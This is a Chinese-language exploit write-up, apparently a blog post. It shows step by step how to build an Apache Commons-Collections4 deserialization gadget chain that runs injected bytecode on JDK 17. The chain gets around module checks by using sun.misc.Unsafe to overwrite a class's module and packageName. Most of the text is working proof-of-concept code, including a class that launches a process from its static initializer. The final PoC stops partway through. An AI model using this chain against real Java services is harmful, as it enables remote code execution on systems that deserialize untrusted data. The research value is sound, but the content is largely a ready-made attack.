










0x01 前言
起因看到一篇文章说jdk17因为
强封装（模块化），利用不了TemplatesImpl来作为反序列化的sink点了，于是去试了下。起初先写了个小demo，发现可以调用呀，然后就想搞一条完整的链子，然后这里选择的是CC4，因为他最后sink点就是TemplatesImpl,当然CC6，CC7，CC5改改应该也可以（CC5起点也要换），但是我懒就直接用CC4了。在jdk17Module模式下，CC6可以直接套一层Unsafe就能直接rce了，但是实现加载字节码可以做更多事，于是俺研究了下，也是解决重重困难实现了最后的利用！
环境
- jdk17.0.8
- pom.xml
<dependencies>
<dependency>
<groupId>javassist</groupId>
<artifactId>javassist</artifactId>
<version>3.12.1.GA</version>
</dependency>
<dependency>
<groupId>org.apache.commons</groupId>
<artifactId>commons-collections4</artifactId>
<version>4.0</version>
</dependency>
</dependencies>
jdk17 模块检测
早在jdk9就开始了
模块化，但是真正实施是在jdk17。模块化简单理解将就是 java为了安全有一些类不想让你直接调用，但是java模块里面的类又需要相互调用，所以反射和new一个对象的时候会对调用类和被调用类进行一个模块检测（这里不只是检测调用和被调用类的模块关系，还有其他判断），好这里我们大概有个概念，jdk17 会进行模块检测
0x02 初见端倪
先来看个小demo，这里需要用到Unsafe，不懂的同学可以先看看这个，简单说Unsafe这里是用来修改我们调用类的模块，从而绕过模块检测。
Unsafe是一个偏底层的函数，我们这里是通过找到Field的地址，然后修改其指向我们设置的值
TemplatesImpl test
import javassist.ClassPool;
import javassist.CtClass;
import sun.misc.Unsafe;
import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
public class test_17 {
public static void main(String[] args) throws Exception {
System.out.println(Class.class.getModule().getName());
ClassPool pool = ClassPool.getDefault();
ClassLoader appClassLoader = ClassLoader.getSystemClassLoader();
pool.insertClassPath(new javassist.LoaderClassPath(appClassLoader));
CtClass clazz = pool.get("eval");
byte[] code = clazz.toBytecode();
CtClass clazz2 = pool.get(Evil.class.getName());
byte[] code2 = clazz2.toBytecode();
System.out.println(Base64.getEncoder().encodeToString(code));
Class<?> aClass = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
patchModule(test_17.class,aClass);
System.out.println(test_17.class.getModule().getName());
Object o = aClass.getDeclaredConstructor().newInstance();
setFiled(o,"_name","111");
setFiled(o,"_bytecodes",new byte[][]{code,code2});
setFiled(o,"_transletIndex",0);
//setFiled(o,"_auxClasses",new HashMap<>());
FileOutputStream fos = new FileOutputStream("bin");
ObjectOutputStream oos = new ObjectOutputStream(fos);
oos.writeObject(o);
oos.close();
patchModule(test_17.class,eval.class);
System.out.println(test_17.class.getModule().getName());
// 从文件中反序列化对象
FileInputStream fis = new FileInputStream("bin");
ObjectInputStream ois = new ObjectInputStream(fis);
Templates o1 = (Templates) ois.readObject();
o1.getOutputProperties();
ois.close();
}
private static void patchModule(Class clazz,Class goalclass){
try {
Class UnsafeClass = Class.forName("sun.misc.Unsafe");
Field unsafeField = UnsafeClass.getDeclaredField("theUnsafe");
unsafeField.setAccessible(true);
Unsafe unsafe = (Unsafe)unsafeField.get(null);
Object ObjectModule = Class.class.getMethod("getModule").invoke(goalclass);
Class currentClass = clazz;
long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
unsafe.getAndSetObject(currentClass,addr,ObjectModule);
} catch (Exception e) {
}
}
public static void setFiled(Object templates, String name, Object values) throws IllegalAccessException, NoSuchFieldException {
Field declaredField = templates.getClass().getDeclaredField(name);
declaredField.setAccessible(true);
declaredField.set(templates,values);
}
}
demo中在反射前执行patchModule(test_17.class,aClass);修改模块，然后反序列化后调用getOutputProperties触发sink，然后这里生成bin文件后，注释掉前面代码，执行readobject是可以执行成功的。这里我就感觉好像跟我想的有点不一样了，我之前看那篇文章以为只要实例化类就会进行模块的检测。但是很显然这里肯定没有。
0x03 构造
然后就开始尝试构造了
1.eval.class
首先是恶意类，这里我没有继承
AbstractTranslet，因为有模块检测那个东西，反正我当时很多报错，我就直接删了，这里分析代码可以用另一种方法代替
import java.io.IOException;
public class eval {
static {
try {
Runtime.getRuntime().exec("calc");
} catch (IOException e) {
throw new RuntimeException(e);
}
}
public Class<?> getSuperclass(){
return eval.class;
}
}
尝试
开始尝试过重写getSuperclass()方法绕过if判断，后面发现重写不了这个，原因应该是：这里_class[i]属于Class对象，然后Class是final不让继承，然后也就重写不了了

解决
那么这里会进入else，_auxClasses正常是null所以这里会空指针报错。但是这个值不能反射设置，这个值最后还是属于Hashtable，但是Hashtable不继承Serializable。那就看那些地方会对这个值进行赋值，看我们能不能调用到

发现就在defineTransletClasses()上方就有，只要_bytecodes.length>1就行，ez很好满足

setFiled(templates,"_bytecodes",new byte[][]{code,code2});
这样设置就解决了，然后以为套一层Unsafe就能实现时，最大的问题来了
2. boss newInstance
在transform最后调用点，TrAXFilter的实例化是通过newInstance实现，而这个属于反射，这里会进行模块检测！！！

起初在poc中写句patchModule(invokerTransformer.getClass(),aClass);（aClass就是TrAXFilter.class），可以成功调用，但是下意识就反应到这是本地，客户端和服务端是一体的。相当于这个也修改了服务端invokerTransformer的模块hhh。
然后这里沉思了下，能不能通过CC链中Transformer[]的构造执行patchModule()中的代码（Unsafe那块代码，修改模块），修改完模块然后再调用CC4后面的sink，然后拼接到一个Transformer[]里面进行利用
然后看了下ConstantTransformer，发现返回的对象，和接收input没半毛钱关系，所以上面想法是可行的
public O transform(final I input) {
return iConstant;
}
2.1 怎么实现Unsafe
说干就干，慢着，你是说用invokerTransformer来实现下面这段代码？
private static void patchModule(Class clazz,Class goalclass){
try {
Class UnsafeClass = Class.forName("sun.misc.Unsafe");
Field unsafeField = UnsafeClass.getDeclaredField("theUnsafe");
unsafeField.setAccessible(true);
Unsafe unsafe = (Unsafe)unsafeField.get(null);
Object ObjectModule = Class.class.getMethod("getModule").invoke(goalclass);
Class currentClass = clazz;
long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
unsafe.getAndSetObject(currentClass,addr,ObjectModule);
} catch (Exception e) {
}
}
我们化简，也就是要执行unsafe.getAndSetObject(currentClass,addr,ObjectModule);这句代码
那就要好好理解invokerTransformer.transform中的逻辑了
public O transform(final Object input) { //化简下
final Class<?> cls = input.getClass();
final Method method = cls.getMethod(iMethodName, iParamTypes);
return (O) method.invoke(input, iArgs);
尝试
- 那我们能不能直接
传个Unsafe对象呢？no
Unsafe不能反序列化
- 后面想到
getRuntime,然后去看发现有getUnsafe可以获得Unsafe对象
但是其实用不了hhh，不然干嘛还通过反射获得Unsafe对象嘛hhh。该方法还有
@CallerSensitive这个注释会对调用者的classLoader进行检查，判断当前类是否由Bootstrap classLoader加载，如果不是的话就会抛出一个SecurityException异常。
- 因为受到Runtime的构造和
final Class<?> cls = input.getClass();这句代码的影响，我一直觉得要得到Unsafe对象才能进行调用。因为你传入的Unsafe.class经过input.getClass()，都会变成Class.class，会没有用的。我昨天这里一度以为无解了hhh
后面我一直看代码，发现getRuntime费那么大劲是因为Class没这个方法，但是有getDeclaredField，setAccessible这些方法。而Runtime对象也是为了exec的调用，并不是前面就要有对象才能调用。而且前面调用(Field unsafeField = UnsafeClass.getDeclaredField("theUnsafe");)本来就是通过Unsafe.class调用的，而不是Unsafe对象调用的，怎么就不能调用了？
- 这个想法通尝试发现是可以，但是又有个问题
unsafeField.setAccessible(true);
Unsafe unsafe = (Unsafe)unsafeField.get(null);
theUnsafe是private，setAccessible这个调用不能少，就意味着unsafeField这个Filed对象得被调用两次，但是这在invokerTransformer中怎么可能实现呢？于是我想了能不能在外面执行unsafeField.setAccessible(true);，然后把unsafeField传到invokerTransformer中，其实不行Field也不继承Serializable啊，想p吃呢hhh
解决
然后又思考了片刻，如果靠链子解决的话，那大概需要一个这样的结构吧
public T transform(final T input) {
iTransformer.transform(input);
return input;
}
这里iTransformer.transform(input);去执行unsafeField.setAccessible(true);这段内容，执行完后还能返回之前的对象，后面正常调用。这样大概就能实现同一个对象被调用2次了！
然后我就去找实现transform方法的类，其实不多，但是找下来基本上没什么吊用？但是注意到有一些类有execute，evaluate方法，但是实现transform方法的类里面又没看到那个对这个两个方法进行了调用。这里稍微有点蹊跷了，然后又去网上找了下思路，就看到之前CC改编的一些链子。然后看到一个对create()方法的调用，然后这个类其实没实现transform，但是他有create()。这里我也有点感觉了那execute，evaluate方法也很有可能是想用一个包下的类，于是我就去这个包下面一通找，hhh如果让我发现了点什么hhh

我之所以会有上面这个想法，也是找transform()方法的时候，看到下面这两个调用，就很符合我的思路（看代码注释！）
ClosureTransformer
public T transform(final T input) {
iClosure.execute(input); //只要execute中可以控制调用transform，即可
return input;
}
IfTransformer
public O transform(I input) {
return this.iPredicate.evaluate(input) ? this.iTrueTransformer.transform(input) : this.iFalseTransformer.transform(input);
//因为这里是三元表达式，所以其实会执行两句代码
//所以这里 evaluate(input) 可以控制调用transform，即可
}
然后其实感觉找到了很多可以用的。先写比较麻烦的吧，因为好用的都是后面才遇到wwww(调用想法就写到代码注释里吧方便点
找到的一些类
ComparatorPredicate
public boolean evaluate(final T target) {
boolean result = false;
final int comparison = comparator.compare(object, target);//这里是看到了compare，然后CC4这条链子也是有这个调用点，然后想能不能通过这里调用到transform，看了下compare()相关代码感觉是可行的但是有点麻烦
switch (criterion) {
case EQUAL:
result = comparison == 0;
break;
case GREATER:
result = comparison > 0;
break;
case LESS:
result = comparison < 0;
break;
case GREATER_OR_EQUAL:
result = comparison >= 0;
break;
case LESS_OR_EQUAL:
result = comparison <= 0;
break;
default:
throw new IllegalStateException("The current criterion '" + criterion + "' is invalid.");
}
return result;
}
EqualPredicate
public boolean evaluate(final T object) {
if (equator != null) {
return equator.equate(iValue, object); //这个是想到equate，equals也有相关的链子，这个未证实，感觉有就记录了
} else {
return iValue.equals(object);
}
}
比较好用的
TransformerPredicate
public boolean evaluate(final T object) {
final Boolean result = iTransformer.transform(object);//这个需要有结果，但是setAccessible返回是void，所以这个可能用不了
if (result == null) {
throw new FunctorException(
"Transformer must return an instanceof Boolean, it was a null object");
}
return result.booleanValue();
}
好用的
TransformedPredicate
public boolean evaluate(final T object) {
final T result = iTransformer.transform(object); //这里不就完美了么hhh
return iPredicate.evaluate(result);
}
TruePredicate
public boolean evaluate(final T object) {
return true; //这个控制下iPredicate.evaluate(result);结果，增加链子稳定性
}
最好用的
这个是我唯一记录的一个execute方法的，但确实最好用的www，不是哥们？你直接就是梦中情execute
TransformerClosure
public void execute(final E input) {
iTransformer.transform(input);
}
demo
那么我最后选择了这套组合
ClosureTransformer
public T transform(final T input) {
iClosure.execute(input);
return input;
}
TransformerClosure
public void execute(final E input) {
iTransformer.transform(input);
}
可以成功得到Unsafe对象，nice捏，这里我就直接拿我测试的poc了
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.*;
import sun.misc.Unsafe;
import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
public class test {
public static void main(String[] args) throws Exception {
Class UnsafeClass = Class.forName("sun.misc.Unsafe");
Field unsafeField = UnsafeClass.getDeclaredField("theUnsafe");
unsafeField.setAccessible(true);
Unsafe unsafe = (Unsafe)unsafeField.get(null);
Class<?> TrAXFilter = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter");
Object ObjectModule = Class.class.getMethod("getModule").invoke(TrAXFilter);
long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("packageName"));
//
// System.out.println(addr);
// System.out.println(Class.class.getModule().getClass());
// System.out.println("1111"+TrAXFilter.getPackageName());
// unsafe.getAndSetObject(TrAXFilter,addr,"javax.xml");
// System.out.println(Class.class.getDeclaredField("packageName"));
// System.out.println(ObjectModule);
// System.out.println(ObjectModule.getClass().getName());
// Class<?> TrAXFilter2 = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter");
// System.out.println("222"+TrAXFilter2.getPackageName());
// final Class<?> cls = input.getClass();
// final Method method = cls.getMethod(iMethodName, iParamTypes);
// return (O) method.invoke(input, iArgs);
// InvokerTransformer invokerTransformer4 = new InvokerTransformer("getAndSetObject",new Class[]{Object.class,long.class,Object.class}, new Object[]{Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter"),60,"javax.xml"});
InvokerTransformer invokerTransformer3 = new InvokerTransformer("get",new Class[]{Object.class}, new Object[]{null});
InvokerTransformer invokerTransformer2 = new InvokerTransformer("setAccessible",new Class[]{boolean.class}, new Object[]{true});
TransformerClosure transformerClosure = new TransformerClosure(invokerTransformer2);
ClosureTransformer ClosureTransformer = new ClosureTransformer(transformerClosure);
InvokerTransformer invokerTransformer = new InvokerTransformer("getDeclaredField",new Class[]{String.class}, new Object[]{"theUnsafe"});
ConstantTransformer constantTransformer = new ConstantTransformer(UnsafeClass);
Transformer[] transformers=new Transformer[]{constantTransformer,invokerTransformer,ClosureTransformer,invokerTransformer3};
Transformer keyTransformer = new ChainedTransformer(transformers);
FileOutputStream fos = new FileOutputStream("bin");
ObjectOutputStream oos = new ObjectOutputStream(fos);
oos.writeObject(keyTransformer);
oos.close();
// 从文件中反序列化对象
FileInputStream fis = new FileInputStream("bin");
ObjectInputStream ois = new ObjectInputStream(fis);
Transformer o1 = (Transformer) ois.readObject();
ois.close();
// System.out.println(Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter").getPackageName());
Object transform = o1.transform(null);
System.out.println(transform);
// System.out.println(Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter").getPackageName());
}
private static void patchModule(Class clazz,Class goalclass){
try {
Class UnsafeClass = Class.forName("sun.misc.Unsafe");
Field unsafeField = UnsafeClass.getDeclaredField("theUnsafe");
unsafeField.setAccessible(true);
Unsafe unsafe = (Unsafe)unsafeField.get(null);
Object ObjectModule = Class.class.getMethod("getModule").invoke(goalclass);
Class currentClass = clazz;
long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
unsafe.getAndSetObject(currentClass,addr,ObjectModule);
} catch (Exception e) {
}
}
}
2.2 Module
本以为最难的问题已经解决了，但是又用新的问题了wwww
后面其实就只是调用unsafe.getAndSetObject，他的参数都可以传然后调用。正当我这么想的时候突然一阵不好的预感
unsafe.getAndSetObject(currentClass,addr,ObjectModule);
这里addr是一个long值，可以直接传，但是ObjectModule是一个Module类啊，不能反序列化，而且也不能通过前面的CC链transform构造，因为你构造出来也传不到参数的地方吧！www，这截止比上一个更卡死，简直无解！
2.3 pn
没办法，只能抱着最后一丝希望去看看newInstance，是怎么进行模块检测的，看能不能通过其他方法绕过
然后调试 调试 调试 啊 发现起初就是这个地方给我们return false的

往下看，可以看到进行了模块比较，一样的话直接就会返回true

然后后面会进去到Module类，这里调用的是被调用类（TrAXFilter）的Module.isExported
然后跟到implIsExportedOrOpen，然后发现了这个isNamed()，这里代码意思是被调用类没有模块名字的话就直接返回true

那简单呀用Unsafe把TrAXFilter的Module.name改了不久行了，这个想法我起初也觉得快成了。但其实Module类做了防护，java不会让我们得到这个的类Field。getDeclaredFields()出来都是空的。
然后还想过能不能直接把Module设置成null呀，null能反序列化呀，其实纯扯，在进入isExported方法时其实就会报空指针错误！
然后第二个和第三个if都没希望的，this==other的话前面代码就返回true了，然后isOpen()是false
那只有最后点希望咯，跟进isStaticallyExportedOrOpen

上面那个ifopenPackages是null，根本操作不了，然后看到下面这个if
这个exportedPackages是一个Hashmap，会从这里面获取值，还记得这个pn是什么，是被调用类的模块名(com.sun.org.apache.xalan.internal.xsltc.trax),正常这里是没有对应的key，返回null的。
我们跟进allows，wc，发现只要targets不为null，怎么样都返回true啊啊啊啊（下图是我已经操作过的，targets会有值

也就是pn只要是exportedPackages中的任意一个key值不就行了，我们再回想下pn怎么来的
String pkg = memberClass.getPackageName();//pkg就是pn
return memberModule.isExported(pkg, currentModule);
Class.class中
public String getPackageName() {
String pn = this.packageName;
if (pn == null) {
...
}
return pn;
}
可以看到就是Class类中packageName属性，这还不容易？，Class类中module属性，我都能改，还改不你了？
直接用Unsafe修改了packageName
0x04 poc
心心念念的poc呜呜呜
//import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
//import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.*;
import sun.misc.Unsafe;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.PriorityQueue;
public class CC4_17 {
public static void main(String[] args) throws Exception {
ClassPool pool = ClassPool.getDefault();
ClassLoader appClassLoader = ClassLoader.getSystemClassLoader();
pool.insertClassPath(new javassist.LoaderClassPath(appClassLoader));
CtClass clazz = pool.get("eval");
byte[] code = clazz.toBytecode();
CtClass clazz2 = pool.get(Evil.class.getName());//这里随便一个类就行，code2凑数用的
byte[] code2 = clazz2.toBytecode();
System.out.println(Base64.getEncoder().encodeToString(code));
Class<?> aClass = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
patchModule(CC4_17.class,aClass);
Object templates = aClass.getDeclaredConstructor().newInstance();
setFiled(templates,"_name","111");
setFiled(templates,"_bytecodes",new byte[][]{code,code2});
setFiled(templates,"_transletIndex",0);
Class<?> TrAXFilter = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter");
InstantiateTransformer invokerTransformer5 = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});
ConstantTransformer constantTransformer2 = new ConstantTransformer(TrAXFilter);
InvokerTransformer invokerTransformer4 = new InvokerTransformer("getAndSetObject",new Class[]{Object.class,long.class,Object.class}, new Object[]{Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter"),60,"javax.xml"});
InvokerTransformer invokerTransformer3 = new InvokerTransformer("get",new Class[]{Object.class}, new Object[]{null});
InvokerTransformer invokerTransformer2 = new InvokerTransformer("setAccessible",new Class[]{boolean.class}, new Object[]{true});
TransformerClosure transformerClosure = new TransformerClosure(invokerTransformer2);
